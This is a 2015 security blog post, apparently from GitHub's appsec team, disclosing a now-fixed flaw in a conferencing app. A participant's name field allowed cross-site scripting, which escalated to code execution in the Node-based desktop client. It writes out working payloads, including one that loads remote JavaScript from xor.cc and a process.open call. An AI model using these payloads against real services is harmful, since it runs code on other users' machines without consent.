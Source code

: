 ```yaml
---
layout: post
title:  "XSS to RCE in ..."
date:   2015-09-08 17:28:00
categories: xss rce bugbounty
---
```


**Note: this has been fixed**.

## XSS to RCE "yeah right, RSnake"

I accidentally triggered a cross-site scripting (XSS) vulnerability in &lt;conf provider X&gt; that worked when using the web application as well as the native OS X application (and possibly additional clients). Nowadays, XSS -> Remote Code Execution (RCE) is possible thanks to Node. For every person in any meeting that I join, I could execute code on their computer.

# Standup

I entered a meeting with the classic first name of `<img src=x onerror=alert()>` (the [bobby tables](http://xkcd.com/327/) of XSS). A few minutes into the conversation, [toomey] noticed a broken image pop up. Uh oh. When I asked if he also saw an alert box, my colleague [ben] chimed in and said yes.

So we have XSS. Sweet. In at least two clients. Hmmm, this could be bad.

![chat](/assets/xssrce/badtime.jpg)

## eval(prompt())

We noticed that there was some filtering going on (such as stripping quotes), so we'd have to use `String.toCharCode` to generate any string values. The web app enforced a value length but this is easily bypassed with a proxy and was not enforced in the desktop client. [ben] quickly came up with a good way to explore the impact of this xss with a simple debug console:

`<img src=x onerror=eval(prompt())>` (35 chars)

This lets us generate payloads without having to generate `toCharCode` code each time. Sure this isn't difficult, but an executing prompt is so much easier to use.

## Exploring the native app

[greg] took a look at the &lt;conf provider X&gt; native application and noticed it used Node. Perhaps `process.open` would work.

It did.

![chat](/assets/xssrce/process.png)

## Putting it all together

That's when [ben] put everything together using a very short payload:

`<img src=x onerror=$.getScript(String.fromCharCode(47,47,120,111,114,46,99,99))>` (80 chars)

Now join any existing meeting and enter the above payload as your name. Everyone in the room see an alert box. Those using the native apps will also see their calculators open.

![Alert](/assets/xssrce/alert.png)

![Calculator!](/assets/xssrce/calc.png)

## How it works

The use of `String.fromCharCode` is just a classic way to bypass filtering/escaping of quotes. `String.fromCharCode(47,47,120,111,114,46,99,99)` is `//xor.cc`.

The payload can be simplified as:

`<img src=x onerror=$.getScript("//xor.cc")>`

[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. Yep, an image that failed to load eventually fetched and executed even more javascript. The fetched javascript that opens the calculator is:

`process.open("/Applications/Calculator.app/Contents/MacOS/Calculator");` (72 chars)

## Why it sort of matters

XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. &lt;conf provider X&gt; meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice that nobody's hand is up. If you've used &lt;conf provider X&gt;, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable &lt;conf provider X&gt; meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.

## Calculators

You can't have a good exploit unless calculators are involved. See [PDF content-type sniffing](https://bounty.github.com/researchers/avlidienbrunn.html) for an even better use of calculators in an attack.

![calc!!!](/assets/xssrce/igotcalc.png)

## Conclusion

Big ups to the GitHub appsec team. Within one hour we went from XSS to RCE. And it played out like something in one of those movies or TV shows. "We popped a faux console using eval and prompt while ripping open the binary to leverage a libary with system access to perform remote code execution... to open a calculator." Most of the credit has to go to [ben] and [greg], I just found XSS and I wouldn't have even known without [toomey].

[Did I mention that we're hiring an intern for the appsec team?](https://jobs.lever.co/github/8be6828a-2762-42da-bd11-8306addb0909)


[toomey]: https://twitter.com/patricktoomey "@patricktoomey"
[ben]: https://twitter.com/mastahyeti "@mastahyeti"
[greg]: https://twitter.com/gose1 "@gose1"
